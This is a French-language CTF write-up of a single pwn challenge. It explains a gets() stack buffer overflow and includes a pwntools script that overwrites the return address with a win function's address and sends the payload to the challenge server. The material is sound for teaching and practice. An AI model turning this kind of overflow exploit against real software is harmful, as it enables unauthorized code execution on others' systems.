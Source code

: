 # 🚩 Writeup des Challenges CTF L3ak 🚩

Date: 17 juillet 2025



## 📝 Introduction
Voici ici le writeups du premier challenge de pwn.

---

## 💣 Challenge 1: challPwnGets - Buffer Overflow Attack

![Buffer Overflow](https://i.imgur.com/JqUfzsH.png)

### 🔍 Description du challenge
Ce challenge est un programme qui utilise la fonction `gets()` en C, qui est connue pour être dangereuse car elle ne vérifie pas les limites de la mémoire.

### 🛠️ Notre objectif
On doit exploiter un "buffer overflow" pour rediriger l'exécution du programme vers une fonction spéciale appelée `win` qui nous donnera le flag.

### 📊 Analyse technique
- Le programme est un **ELF 64-bit**
- Il n'est **pas strippé** (les symboles sont présents)
- Il y a une fonction `win` à l'adresse **0x401262**
- On a besoin de **264 bytes** de padding pour atteindre l'adresse de retour

### 💻 Code d'exploitation
```python
from pwn import *

# Configuration
context.arch = 'amd64'
context.log_level = 'debug'

# Construction du payload
offset = 264
padding = b'A' * offset  # On remplit avec plein de 'A'
win = p64(0x401262)      # L'adresse de la fonction win
payload = padding + win  # Notre payload complet

# Connexion au serveur
conn = remote('34.45.81.67', 16002)

# Attendre le prompt
conn.recvuntil(b'bytes): ')

# Envoyer le payload
conn.sendline(payload)

# Passer en mode interactif pour voir le flag
conn.interactive()
```

### 🧠 Explications simples
1. On envoie 264 caractères 'A' pour remplir le buffer
2. Ensuite on ajoute l'adresse de la fonction `win`
3. Quand la fonction actuelle se termine, au lieu de retourner normalement, le programme va aller exécuter la fonction `win`
4. La fonction `win` nous donne le flag !

---

